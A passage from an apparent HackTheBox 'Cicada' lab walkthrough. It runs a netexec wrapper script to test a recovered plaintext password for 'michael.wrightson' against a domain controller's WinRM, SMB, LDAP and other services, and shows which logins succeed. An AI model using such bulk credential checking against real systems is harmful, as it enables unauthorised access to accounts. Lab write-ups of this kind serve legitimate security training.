 The password was correlated with `michael.wrightson` 

## Checking where we can login with `michael.wrightson` creds

Since we now have valid creds, lets use my script to bulk check the services that we can connect to via win-rm: [ch3ckkm8/auto_netexec: Automating netexec to bulk check all available services, given the target and the creds to check](https://github.com/ch3ckkm8/auto_netexec)

```bash
./auto_netexec_bulk_creds_checker.sh cicada.htb 'michael.wrightson' 'Cicada$M6Corpb*@Lp#nZp!8'
```

```bash
[*] Checking if winrm port 5985 is open on cicada.htb...
[+] Port 5985 open — checking winrm with netexec
WINRM       10.129.180.83   5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
WINRM       10.129.180.83   5985   CICADA-DC        [-] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8

[*] Checking if smb port 445 is open on cicada.htb...
[+] Port 445 open — checking smb with netexec
SMB         10.129.180.83   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.180.83   445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 

[*] Checking if ldap port 389 is open on cicada.htb...
[+] Port 389 open — checking ldap with netexec
SMB         10.129.180.83   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
LDAP        10.129.180.83   389    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 

[*] Checking if rdp port 3389 is open on cicada.htb...
[-] Skipping rdp — port 3389 is closed

[*] Checking if wmi port 135 is open on cicada.htb...
[-] Skipping wmi — port 135 is closed

[*] Checking if nfs port 2049 is open on cicada.htb...
[-] Skipping nfs — port 2049 is closed

[*] Checking if ssh port 22 is open on cicada.htb...
[-] Skipping ssh — port 22 is closed

[*] Checking if vnc port 5900 is open on cicada.htb...
[-] Skipping vnc — port 5900 is closed

[*] Checking if ftp port 21 is open on cicada.htb...
[-] Skipping ftp — port 21 is closed

[*] Checking if mssql port 1433 is open on cicada.htb...
[-] Skipping mssql — port 1433 is closed

```
